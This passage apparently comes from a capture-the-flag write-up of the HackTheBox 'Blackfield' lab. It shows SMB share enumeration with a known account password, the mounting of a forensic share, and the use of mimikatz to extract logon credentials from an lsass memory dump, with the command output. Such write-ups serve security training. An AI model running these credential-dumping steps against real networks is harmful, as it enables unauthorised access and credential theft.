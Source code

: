 Let us check SMB and see if we have any newly accessible folders.

```bash
root@darkness:~# smbmap -H 10.10.10.192 -u audit2020 -d Blackfield.local -p 'P@ssw0rd'
[+] IP: 10.10.10.192:445        Name: blackfield.local                                  
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```

Seems like we have access to the forensic share!

```bash
root@darkness:~# umount /mnt/Blackfield; mount -o user=audit2020 -t cifs //10.10.10.192/forensic /mnt/Blackfield
Password for audit2020@//10.10.10.192/forensic:  ********
root@darkness:/mnt/Blackfield# ls -alh
total 8.0K
drwxr-xr-x 2 root root 4.0K Feb 23  2020 .
drwxr-xr-x 4 root root 4.0K Oct  4 10:52 ..
drwxr-xr-x 2 root root    0 Feb 23  2020 commands_output
drwxr-xr-x 2 root root    0 May 28 22:28 memory_analysis
drwxr-xr-x 2 root root    0 Feb 23  2020 tools
root@darkness:/mnt/Blackfield# ls -alh memory_analysis/
total 495M
drwxr-xr-x 2 root root    0 May 28 22:28 .
drwxr-xr-x 2 root root 4.0K Feb 23  2020 ..
-rwxr-xr-x 1 root root  37M May 28 22:25 conhost.zip
-rwxr-xr-x 1 root root  24M May 28 22:25 ctfmon.zip
-rwxr-xr-x 1 root root  23M May 28 22:25 dfsrs.zip
-rwxr-xr-x 1 root root  18M May 28 22:26 dllhost.zip
-rwxr-xr-x 1 root root 8.5M May 28 22:26 ismserv.zip
-rwxr-xr-x 1 root root  40M May 28 22:25 lsass.zip
[...]
```

We have a lsass.zip file! Let us use mimikatz to read the lsass file.

#### Reading lsass using mimikatz

```bash
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   https://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */

mimikatz # sekurlsa::minidump lsass.DMP
Switch to MINIDUMP : 'lsass.DMP'
mimikatz # sekurlsa::logonPasswords full
Opening : 'lsass.DMP' file for minidump...

Authentication Id : 0 ; 406458 (00000000:000633ba)
Session           : Interactive from 2
User Name         : svc_backup
Domain            : BLACKFIELD
Logon Server      : DC01
Logon Time        : 23/02/2020 20:00:03
SID               : S-1-5-21-4194615774-2175524697-3563712290-1413
```